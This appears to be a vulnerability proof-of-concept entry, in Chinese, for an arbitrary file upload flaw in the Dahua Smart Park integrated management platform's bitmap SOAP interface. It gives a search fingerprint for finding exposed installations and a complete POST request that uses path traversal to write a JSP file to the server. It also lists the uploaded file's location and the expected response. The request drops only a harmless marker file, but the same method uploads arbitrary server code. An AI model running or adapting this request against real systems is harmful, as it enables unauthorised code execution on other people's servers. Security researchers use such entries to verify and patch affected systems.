 ﻿# 大华智慧园区综合管理平台bitmap接口存在任意文件上传漏洞

> 更新时间：2024-02-06

> 漏洞编号：

> 漏洞说明：大华智慧园区综合管理平台是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。平台意在协助优化园区资源分配，满足多元化的管理需求，同时通过提供智能服务，增强使用体验。大华智慧园区综合管理平台bitmap接口存在任意文件上传漏洞，但未在上传的文件类型、大小、格式、路径等方面进行严格的限制和过滤，导致攻击者可以通过构造恶意文件并上传到设备上。

> 漏洞特征："/WPMS/asset/lib/gridster/"||app="dahua-智慧园区综合管理平台"

> 验证脚本：HTTP

```
POST /emap/webservice/gis/soap/bitmap HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml; charset=utf-8

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:res="http://response.webservice.bitmap.mapbiz.emap.dahuatech.com/">
    <soapenv:Header/>           
        <soapenv:Body>
                 <res:uploadPicFile>
                    <arg0>
                     <picPath>/../dudesite.jsp</picPath>
                    </arg0>
                    <arg1>PCUgb3V0LnByaW50bG4oImZsYWdmbGFnIik7ICU+</arg1>
                </res:uploadPicFile>
        </soapenv:Body>
</soapenv:Envelope>
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/upload/dudesite.jsp


> 验证文件来源：大华智慧园区综合管理平台bitmap接口存在任意文件上传漏洞.poc
